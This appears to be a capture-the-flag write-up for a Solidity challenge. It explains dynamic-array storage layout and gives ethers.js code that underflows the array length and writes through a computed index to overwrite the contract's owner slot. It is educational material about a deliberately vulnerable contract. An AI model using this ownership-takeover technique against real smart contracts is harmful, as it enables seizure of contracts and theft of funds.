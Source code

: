 > In the case of a dynamic array, the reserved slot p contains the length of the array as a uint256, and the array data itself is located sequentially at the address keccak256(p).
>
> - [Ref 1](https://github.com/Arachnid/uscc/tree/master/submissions-2017/doughoyte#solidity-storage-layout), [Ref 2](https://docs.soliditylang.org/en/v0.6.8/internals/layout_in_storage.html#mappings-and-dynamic-arrays)

The storage then looks like this:

```python
slot 0: owner, contact
slot 1: codex.length
// ...
slot keccak(1): codex[0]
slot keccak(1) + 1: codex[1]
slot keccak(1) + 2: codex[2]
slot keccak(1) + 3: codex[3]
slot keccak(1) + 4: codex[4]
// ...
```

Note that the array items wrap around after they reached the max storage slot of `2^256 - 1`.
Using a bit of math we can find the codex index that writes to the `owner` variable at storage slot 0:

```bash
need to find array index that maps to 0 mod 2^256
i.e., keccak(1) + index mod 2^256 = 0
<=> index = -keccak(1) mod 2^256
<=> index = 2^256 - keccak(1) as keccak(1) is in range
```

The following functions then need to be invoked to solve the challenge:

```javascript
// we need to make contract first to pass the modifier checks of other functions
tx = await challenge.make_contact();
await tx.wait();

// all of contract storage is a 32 bytes key to 32 bytes value mapping
// first make codex expand its size to cover all of this storage
// by calling retract making it overflow
tx = await challenge.retract();
await tx.wait();

// now try to index the map in a way such that we write to the owner variable at slot 0
// codex[0] value is stored at keccak(codexSlot) = keccak(1)
// codexSlot = 1 because slot 0 contains both 20 byte address (owner) & boolean
// needs to be padded to a 256 bit
const codexBegin = BigNumber.from(
    ethers.utils.keccak256(
        `0x0000000000000000000000000000000000000000000000000000000000000001`
    )
);
const ownerOffset = BigNumber.from(`2`).pow(`256`).sub(codexBegin);

const eoaAddress = await eoa.getAddress()
tx = await challenge.revise(ownerOffset, ethers.utils.zeroPad(eoaAddress, 32));
await tx.wait();
```
